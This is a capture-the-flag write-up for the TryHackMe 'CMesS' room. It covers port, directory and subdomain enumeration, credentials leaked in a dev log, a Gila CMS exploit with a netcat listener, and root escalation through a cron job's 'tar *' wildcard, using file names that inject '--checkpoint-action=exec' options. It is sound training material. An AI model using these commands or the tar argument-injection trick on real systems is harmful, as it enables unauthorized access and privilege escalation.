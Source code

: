 # 39 - CMesS (subdomain enum) (tar \* exploitation)

Room Link --> [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

### Enumeration

Please add `10.10.86.16 cmess.thm` to /etc/hosts

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv   -sV -p- -T5

# outputs
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://cmess.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 500,403,404

# output
/login
/sites
/index
/about
/themes
/INDEX
/1px
/lib
```
{% endcode %}

#### Sub-domain enumeration with wfuzz

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"
```
{% endcode %}

Add the `dev.cmess.thm` to /etc/hosts.

{% code overflow="wrap" %}
```
Development Log
andre@cmess.thm
Have you guys fixed the bug that was found on live?

support@cmess.thm
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!

support@cmess.thm
Update! We have had to delay the patch due to unforeseen circumstances

andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```
{% endcode %}

And we can try to login with creds: `andre@cmess.thm : KPFTN_f2yxe%` .

Searching Google for "Gila Cms exploit" and stumbled on [this](https://www.exploit-db.com/exploits/51569)

### Initial Access

Ready nc listener beore runnin the code.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Another way to get shell

{% embed url="https://viperone.gitbook.io/pentest-everything/writeups/tryhackme/linux/cmess" %}

###

`cat /etc/crontab` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see a cron job owned by root, utilizing the `tar *`  - wildcards. So we can exploit this.

But we have to be in "andre" home dir for this to work, then i realized we have to get access to user andre 1st.

Then i uploaded `linPEAS` into the machine and saw a file in the /opt dir.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
{% endcode %}

We can ssh in as andres and exploit the  `tar *` vuln.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

exploiting `tar *` or `tar wildcards` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Alternatively:

```
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# just wait 2 minutes for the job to run.
```

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Done.
